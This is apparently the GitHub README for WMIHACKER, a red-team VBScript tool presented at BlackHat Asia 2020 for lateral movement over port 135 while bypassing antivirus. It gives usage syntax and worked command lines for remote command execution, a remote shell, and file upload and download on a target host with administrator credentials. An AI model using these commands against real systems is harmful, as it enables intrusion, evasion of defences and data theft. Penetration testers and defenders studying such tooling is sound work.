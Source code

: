 # WMIHACKER（No need 445 Port）
[中文版(Chinese version)](README_zh.md)

> Disclaimer: The technology involved in this project is only for security learning and  defense purposes, illegal use is prohibited!


Bypass anti-virus software lateral movement command execution test tool（No need 445 Port）

Introduction: The common WMIEXEC, PSEXEC tool execution command is to create a service or call Win32_Process.create, these methods have been intercepted by Anti-virus software 100%, so we created WMIHACKER (Bypass anti-virus software lateral movement command execution test tool（No need 445 Port）).

Main functions: 1. Command execution; 2. File upload; 3. File download

## How to use
```
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs

__          ____  __ _____   _    _          _____ _  ________ _____
\ \        / /  \/  |_   _| | |  | |   /\   / ____| |/ /  ____|  __ \
 \ \  /\  / /| \  / | | |   | |__| |  /  \ | |    | ' /| |__  | |__) |
  \ \/  \/ / | |\/| | | |   |  __  | / /\ \| |    |  < |  __| |  _  /
   \  /\  /  | |  | |_| |_  | |  | |/ ____ \ |____| . \| |____| | \ \
    \/  \/   |_|  |_|_____| |_|  |_/_/    \_\_____|_|\_\______|_|  \_\
                              v0.6beta       By. Xiangshan@360RedTeam
Usage:
        WMIHACKER.vbs  /cmd  host  user  pass  command GETRES?

        WMIHACKER.vbs  /shell  host  user  pass

        WMIHACKER.vbs  /upload  host  user  pass  localpath remotepath

        WMIHACKER.vbs  /download  host  user  pass  localpath remotepath

          /cmd          single command mode
          host          hostname or IP address
          GETRES?       Res Need Or Not, Use 1 Or 0
          command       the command to run on remote host
```

The result is displayed after the command is executed

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1`

No results are displayed after the command is executed

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0`

shell mode

`> cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!" `

File upload: copy the local calc.exe to the remote host c:\calc.exe

`> cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"`

File download: Download the remote host calc.exe to the local c:\calc.exe

`> cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe" `


## 404Starlink
<img src="https://github.com/knownsec/404StarLink-Project/raw/master/logo.png" width="30%">

WMIHACKER has joined [404Starlink](https://github.com/knownsec/404StarLink)

## BlackHat Asia 2020 Arsenal

[https://www.blackhat.com/asia-20/arsenal/schedule/#wmihacker-a-new-way-to-use-135-port-lateral-movement-bypass-av-and-transfer-file-18995](https://www.blackhat.com/asia-20/arsenal/schedule/#wmihacker-a-new-way-to-use-135-port-lateral-movement-bypass-av-and-transfer-file-18995)

## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=rootclay/WMIHACKER&type=Date)](https://star-history.com/#rootclay/WMIHACKER&Date)
